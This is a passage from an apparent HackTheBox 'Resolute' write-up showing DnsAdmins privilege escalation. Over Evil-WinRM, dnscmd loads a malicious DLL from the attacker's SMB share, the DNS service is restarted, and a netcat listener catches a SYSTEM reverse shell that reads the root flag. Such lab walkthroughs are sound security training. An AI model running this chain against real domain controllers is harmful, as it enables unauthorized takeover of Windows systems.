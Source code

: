 ```console
*Evil-WinRM* PS C:\Users\ryan\Documents> dnscmd Resolute /config /serverlevelplugindll \\10.10.14.75\htb\resolute\payload.dll

Registry property serverlevelplugindll successfully reset.
Command completed successfully.
```

Then I need to stop the DNS server follow by starting it again:

```console
*Evil-WinRM* PS C:\Users\ryan\Documents> sc.exe \\resolute stop dns

SERVICE_NAME: dns 
        TYPE               : 10  WIN32_OWN_PROCESS  
        STATE              : 3  STOP_PENDING 
                                (STOPPABLE, PAUSABLE, ACCEPTS_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0
*Evil-WinRM* PS C:\Users\ryan\Documents> sc.exe \\resolute start dns

SERVICE_NAME: dns 
        TYPE               : 10  WIN32_OWN_PROCESS  
        STATE              : 2  START_PENDING 
                                (NOT_STOPPABLE, NOT_PAUSABLE, IGNORES_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x7d0
        PID                : 1960
        FLAGS              : 
```

What should happen is after the DNS server restarts, my payload should be executed and I should catch a shell on my listener:


```console
root@discovery:~/htb/resolute# nc -lvnp 42069
listening on [any] 42069 ...
connect to [10.10.14.75] from (UNKNOWN) [10.10.10.169] 53475
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.
 
C:\Windows\system32>cd /  
cd /
 
C:\>cd users
cd users

C:\Users>cd Administrator
cd Administrator
 
C:\Users\Administrator>cd Desktop
cd Desktop

C:\Users\Administrator\Desktop>type root.txt
type root.txt
e1d94*****************e619c
C:\Users\Administrator\Desktop>
```
